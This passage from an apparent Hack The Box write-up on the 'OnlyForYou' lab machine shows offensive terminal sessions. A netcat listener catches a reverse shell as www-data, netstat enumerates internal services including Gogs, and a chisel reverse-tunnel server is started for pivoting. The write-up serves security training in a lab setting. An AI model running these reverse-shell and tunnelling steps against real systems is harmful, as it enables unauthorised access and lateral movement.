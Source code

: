 As a result, we obtain a reverse shell as `www-data`:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from only4you.htb [10.10.11.210] 57708
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$
```

By running `netstat -tulpan`, we obtain the following:
```console
www-data@only4you:~$ netstat -tulpan
netstat -tulpan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1048/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -        
```

We can see the ports `3000` and `8001`.

Sending curl to port `3000`, we receive HTML that contains `meta name="description" content="Gogs is a painless self-hosted Git service" />`, which indicates that it is running `Gogs` (https://gogs.io/).

Now, let's use [chisel](https://github.com/jpillora/chisel) (or alternatively  [ghostunnel](https://github.com/ghostunnel/ghostunnel)) to gain access to the local ports.

First, we need to upload `chisel` to the target machine using `curl`:
```console
www-data@only4you:/tmp$ ls -ltra chisel
ls -ltra chisel
-rwxr-xr-x 1 www-data www-data 8384512 Jul 17 21:10 chisel
```

Start the `chisel server` on our host machine:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ ./chisel server -p 8888 --reverse --socks5 -v
2023/07/18 00:21:21 server: Reverse tunnelling enabled
2023/07/18 00:21:21 server: Fingerprint KI+Jc/QbX6frdPATmnrIB7FseJ1r55Z66im8d2SiEII=
2023/07/18 00:21:21 server: Listening on http://0.0.0.0:8888
```

